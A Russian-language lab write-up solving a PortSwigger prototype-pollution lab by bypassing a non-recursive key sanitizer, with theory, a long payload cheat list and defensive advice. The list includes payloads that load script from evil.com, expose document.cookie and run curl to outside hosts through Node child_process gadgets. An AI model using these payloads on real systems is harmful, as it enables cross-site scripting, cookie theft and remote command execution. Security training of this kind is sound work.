



немного теории!
### прототип загрязнение через конструктор и обход санитайзера

#### доступ к прототипу без **proto**, но через constructor

разработчики часто блокируют ключ `__proto__`, думая что это защитит от загрязнения. Но есть обход через свойство **`constructor`**.

У каждого объекта в js есть свойство `constructor`, которое ссылается на функцию создавшую этот объект
А у каждой функции-конструктора есть свойство `prototype`

```js
let myObject = {}
// Обычный доступ к прототипу
myObject.__proto__ === Object.prototype  // true
// Обход через constructor
myObject.constructor === Object          // true
myObject.constructor.prototype === Object.prototype  // true
```

то есть, `myObject.constructor.prototype` дает тот же результат что и `__proto__`, но использует другой ключ

#### альтернативные векторы для разных типов  ( типы )

Это работает для любых объектов:

```js
let myString = "hello"
myString.constructor.prototype === String.prototype    // true

let myArray = [1,2,3]
myArray.constructor.prototype === Array.prototype      // true

let myNumber = 123
myNumber.constructor.prototype === Number.prototype    // true
```

#### обход плохой санитизации (пишу дважды заголовок)

Если сайт просто удаляет строку `__proto__` из ввода, это можно обойти:

```js
// Исходный пэйлоад
/?__pro__proto__to__.gadget=payload
// После удаления __proto__ (один раз)
/?__proto__.gadget=payload  // уязвимость все еще работает!
```

Такая рекурсивная вставка обманывает наивные фильтры.

#### эксплуатация

Для атаки через конструктор используется пэйлоад:

```c
/?constructor.prototype.gadget=payload
/?constructor[prototype][gadget]=payload
/?__proto__.constructor.prototype.gadget=payload
```

Это позволяет загрязнить прототип даже если `__proto__` заблокирован

----------

ЛАБА: https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization

++ стоит какая-то базовая защита от Prototype Pollution

задание - через  загрязнение прототипа js вызвать аллерт!

------

можно взять пейлоад лист базовый и проверять все места куда передаются параметры, вручную подставляя параметры и через консоль проверять обьекты Object.prototype  или так console.log(Object.prototype);


```c

__proto__[test]=polluted&__proto__[test2]=polluted2&__proto__[test3]=polluted3
__proto__[test]=polluted&constructor.prototype.test2=polluted2
__proto__[test]=polluted&__proto__.test2=polluted2&constructor.prototype.test3=polluted3
__proto__[test]=polluted&__proto__[test]=polluted&__proto__[test]=polluted

__proto__[test]=polluted
__proto__.test=polluted
__proto__.foo=bar
__proto__[test]=polluted&__proto__[test2]=polluted2
__proto__[test]=polluted&__proto__[test2]=polluted2&__proto__[test3]=polluted3
__proto__[__proto__]=polluted
__proto__[__proto__][test]=polluted
__proto__[test]=polluted&__proto__[test]=polluted
__proto__[test]=data:,alert(1)
__proto__[test]=javascript:alert(1)
constructor.prototype.test=polluted
constructor[prototype][test]=polluted
constructor.prototype.test=data:,alert(1)
constructor[prototype][test]=javascript:alert(1)
__proto__[constructor][prototype][test]=polluted
__proto__.constructor.prototype.test=polluted
__proto__.constructor[prototype].test=polluted
__proto__[constructor].prototype.test=polluted
__proto__[constructor][prototype].test=polluted
__proto__.constructor.prototype[test]=polluted
__proto__[constructor].prototype[test]=polluted
prototype.test=polluted
[prototype].test=polluted
prototype[test]=polluted
[prototype][test]=polluted
__proto__['test']=polluted
__proto__["test"]=polluted
__proto__[`test`]=polluted
__proto__[test]=polluted&__proto__[test2]=polluted
__proto__.test=polluted&__proto__.test2=polluted
constructor['prototype']['test']=polluted
constructor["prototype"]["test"]=polluted
constructor[`prototype`][`test`]=polluted
__proto__['constructor']['prototype']['test']=polluted
__proto__["constructor"]["prototype"]["test"]=polluted
__proto__[`constructor`][`prototype`][`test`]=polluted
__pro__proto__to__[test]=polluted
__pro__proto__to__.test=polluted
__proto__proto__[test]=polluted
__proto__proto__[test]=polluted
__proto____proto__[test]=polluted
constructor..prototype.test=polluted
constructor...prototype.test=polluted
__proto__[test]=polluted&__proto__[test2]=polluted
__proto__[test]=polluted&__proto__[test2]=polluted&__proto__[test3]=polluted
%5F%5Fproto%5F%5F%5Btest%5D=polluted
%5F%5Fproto%5F%5F.test=polluted
__proto__%5Btest%5D=polluted
__proto__.test%3Dpolluted
%63%6F%6E%73%74%72%75%63%74%6F%72%2E%70%72%6F%74%6F%74%79%70%65%2E%74%65%73%74%3D%70%6F%6C%6C%75%74%65%64

console.log(Object.prototype);

{"__proto__": {"test": "polluted"}}
{"__proto__": {"test": "data:,alert(1)"}}
{"__proto__": {"test": "javascript:alert(1)"}}
{"constructor": {"prototype": {"test": "polluted"}}}
{"__proto__": {"__proto__": {"test": "polluted"}}}
{"__proto__.test": "polluted"}
{"__proto__": {"test": "polluted"}, "test2": "polluted2"}
{"__proto__": ["test", "polluted"]}
{"__proto__": {"test": ["polluted"]}}
{"__proto__": {"test": {"__proto__": {"test2": "polluted2"}}}}
{"constructor.prototype.test": "polluted"}
{"__proto__.constructor.prototype.test": "polluted"}

#__proto__[test]=polluted
#__proto__.test=polluted
#constructor.prototype.test=polluted
#__proto__[test]=polluted&__proto__[test2]=polluted2
#__proto__[test]=data:,alert(1)
#__proto__[test]=javascript:alert(1)

__proto__[transport_url]=data:,alert(1)
__proto__[transport_url]=javascript:alert(1)
__proto__[transport_url]=data:,alert(document.cookie)
__proto__[transport_url]=data:,alert(1)//example.com
__proto__[transport_url]=//evil.com/script.js
__proto__[transport_url]=https://evil.com/script.js
__proto__[src]=data:,alert(1)
__proto__[callback]=alert(1)
__proto__[onload]=alert(1)
__proto__[onerror]=alert(1)
__proto__[innerHTML]=
__proto__[innerHTML]=<script>alert(1)</script>
__proto__[html]=


{"__proto__": {"status": 555}}
{"__proto__": {"json spaces": 10}}
{"__proto__": {"content-type": "application/json; charset=utf-7"}}
{"__proto__": {"shell": "node", "NODE_OPTIONS": "--inspect=YOUR-ID.oastify.com"}}
{"__proto__": {"execArgv": ["--eval=require('child_process').exec('curl YOUR-ID.oastify.com')"]}}
{"__proto__": {"shell": "vim", "input": ":! curl https://evil.com\n"}}

```

----

но проще и быстрее запустить вот это дело, инвайдер от бурпа или его аналоги!

-----


на главной стр запускаю сразу ИНВАЙДЕР с пейлоадом 121212121
пишет, что уязвимость на стр поиска
`https://0a4c007e0326422c81275ca300c800c7.web-security-academy.net/?__pro__proto__to__[testproperty]=DOM_INVADER_PP_POC`

пейлоад `/?__pro__proto__to__[testproperty]=DOM_INVADER_PP_POC`




---

пейлоад `/?__pro__proto__to__[testproperty]=DOM_INVADER_PP_POC` видно, что сработал пейлоад с обускацией!

-----

проверю вручную через консоль

команда Object.prototype
и сразу вижу , тест прошет!




---------


осталось разобраться, какой гаджет подставить, чтобы все заработало!!

инвайдер дал подсказку search(1)

----
в html страницы поиска есть путь к файлам js
в том числе `    <script src='/resources/js/searchLoggerFiltered.js'>     `




по этому адресу `/resources/js/searchLoggerFiltered.js` лежит и ждет меня файл
```js

HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
X-Frame-Options: SAMEORIGIN
Content-Length: 864

async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {

    let config = {params: deparam(new URL(location).searchParams.toString())};
    
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;     // пишу на этапе поиска гаджета, вот сюда подставляется значение из моего пейлоада
        document.body.appendChild(script);
    }
    
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
    
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}

window.addEventListener("load", searchLogger);

```

видно , как происходит санитаризация не пропуская запросы с let badProperties = ['constructor','__proto__','prototype'];

у объекта `config` нет своего свойства `transport_url`  - значит наверно config - это и ест "гаджет"

------

пейлоад который проник в код `/?__pro__proto__to__[testproperty]=DOM_INVADER_PP_POC`

пробую пейлоады с аллертом

```http

/?__pro__proto__to__.transport_url=alert(1)
https://0acf004d03a14249811e7f5e006c00f8.web-security-academy.net/?__pro__proto__to__.transport_url=alert(1) 
НЕ СРАБОТАЛ и в консоли ничего нет


----------------------------------------------------------------------


/?__pro__proto__to__[transport_url]=alert(1)
https://0acf004d03a14249811e7f5e006c00f8.web-security-academy.net/?__pro__proto__to__[transport_url]=alert(1)
НЕ СРАБОТАЛ  

в консоли ошибка
searchLoggerFiltered.js:14 GET https://0acf004….web-security-academy.net/alert(1) net::ERR_ABORTED 404 (Not Found)
||searchLogger|@|searchLoggerFiltered.js:14|

это подтверждает, что я попал в функцию searchLogger

теперь нужно правильно видоизменнить пейлоад, чтобы функция выполнила мой код!


/?__pro__proto__to__[transport_url]=alert(1),     НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=alert(1);     НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=alert(1)//    НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=alert(1)-     НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=alert(1)--    НЕ СРАБОТАЛ  

везде ошибка 404, чето не так в принципи значит!

/?__pro__proto__to__[transport_url]=,alert(1)     НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=;alert(1)     НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=:alert(1)    НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=:,alert(1)    НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=:alert(1),alert(1)    НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=-alert(1)     НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=--alert(1)    НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=:data,alert(1)    НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=:data,alert(1)    НЕ СРАБОТАЛ  

/?__pro__proto__to__[transport_url]=alert(1),alert(1)    НЕ СРАБОТАЛ  
/?__pro__proto__to__[transport_url]=alert:,alert(1)    НЕ СРАБОТАЛ  


/?__pro__proto__to__[transport_url]=data:,alert(1)   🍺 БИНГО!!!!!!!!!!!!!!!!!!!!!!!! 
сработало!

ОБЬЯСНЕНИЕ

так как в скрипте написано script.src = пейлоад
то код пытается загрузить как ссылку мой пейлоад
а вот если сделать data: - то браузер думает , что нужно просто взять данные из пейлоада, выполнить код пейлоада!

ЛАБА РЕШЕНА!


```


#### выводы

В этой лабе я использовал prototype pollution, чтобы выполнить dom xss через обход санитайзера

Сайт пытался защититься, удаляя ключи `__proto__`, `constructor` и `prototype` из входящих данных

Но фильтр срабатывал только один раз и не был рекурсивным. То есть удалял только первое включение bad-слова. Я нашел  пэйлоад через инвайдер `/?__pro__proto__to__[transport_url]=data:,alert(1)`. инвайдер тупо ускорил все в несколько раз, без него, пришлось бы вручную перебирать все пейлоады из списка выше + проверять в консоли, прошел пейлоад или нет..

Строка `__pro__proto__to__` после удаления подстроки `__proto__` превратилась в `__proto__`

Это позволило добавить свойство `transport_url` в `Object.prototype`

В коде страницы поиска был скрипт, который проверял наличие свойства `transport_url` у объекта `config`. Если оно существовало, создавался новый тег `script` с этим значением в атрибуте `src`. Объект `config` не имел своего свойства `transport_url`, поэтому унаследовал его из прототипа. В результате на страницу добавился скрипт с `src="data:,alert(1)"`, и браузер выполнил код

#### защита

От prototype pollution защищаются комплексно

Во-первых, нужно замораживать прототипы с помощью `Object.freeze(Object.prototype)`. После этого никакие свойства нельзя будет добавить в прототип

Во-вторых, если используется санитизация ключей, она должна быть рекурсивной и применяться до тех пор, пока опасные подстроки полностью не исчезнут

В-третьих, при создании объектов лучше использовать `Object.create(null)`. Такие объекты не имеют прототипа и не наследуют ничего из `Object.prototype`

В-четвертых, для хранения данных безопаснее использовать `Map` вместо обычных объектов, потому что `Map` не наследует свойства из прототипа


